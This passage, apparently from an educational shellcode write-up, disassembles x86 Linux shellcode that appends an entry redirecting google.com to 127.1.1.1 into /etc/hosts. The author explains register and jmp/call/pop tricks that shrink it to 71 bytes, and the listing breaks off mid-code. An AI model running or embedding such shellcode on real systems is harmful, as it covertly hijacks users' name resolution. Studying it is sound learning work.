 ```nasm

080480b9 <google>:
80480b9:	31 32                	xor    DWORD PTR [edx],esi
80480bb:	37                   	aaa    
80480bc:	2e 31 2e             	xor    DWORD PTR cs:[esi],ebp
80480bf:	31 2e                	xor    DWORD PTR [esi],ebp
80480c1:	31 20                	xor    DWORD PTR [eax],esp
80480c3:	67 6f                	outs   dx,DWORD PTR ds:[si]
80480c5:	6f                   	outs   dx,DWORD PTR ds:[esi]
80480c6:	67 6c                	ins    BYTE PTR es:[di],dx
80480c8:	65 2e 63 6f 6d       	gs arpl WORD PTR cs:[edi+0x6d],bp
```

### The changes
We start by changing the way we zero out our registers.  Instead of using the ```mul``` instruction we just zero out EAX and then use ```cdq``` to extend EAX to EDX affectively zeroing out EDX. We also use push/pop to setup our syscall values as opposed to mov statements.

```nasm
xor eax,eax
cdq
...
push byte 5
pop eax
```

Instead of pushing the hex for /etc/hosts to the stack moving a pointer of ESP to EBX we instead opt to use the jmp/call/pop technique to acquire this value and save it into EBX. This saves us some space which allows us to get a smaller shellcode than the original.

```nasm
  jmp short _file
_file_load:
  pop ebx
_file:
  call _file_load
  db "/etc/hosts"
```

The resulting shellcode size is 71 bytes which is smaller than the 77 bytes of the original.  The new code is shown below:
```nasm
08048080 <_start>:
8048080:	31 c0                	xor    eax,eax
8048082:	99                   	cdq    
8048083:	6a 05                	push   0x5
8048085:	58                   	pop    eax
8048086:	52                   	push   edx
8048087:	eb 36                	jmp    80480bf <_file>

08048089 <_file_load>:
8048089:	5b                   	pop    ebx
804808a:	66 b9 01 04          	mov    cx,0x401
804808e:	cd 80                	int    0x80
8048090:	93                   	xchg   ebx,eax
8048091:	6a 04                	push   0x4
8048093:	58                   	pop    eax
8048094:	eb 10                	jmp    80480a6 <_load_data>

08048096 <_write>:
8048096:	59                   	pop    ecx
8048097:	6a 14                	push   0x14
8048099:	5a                   	pop    edx
804809a:	cd 80                	int    0x80
804809c:	6a 06                	push   0x6
```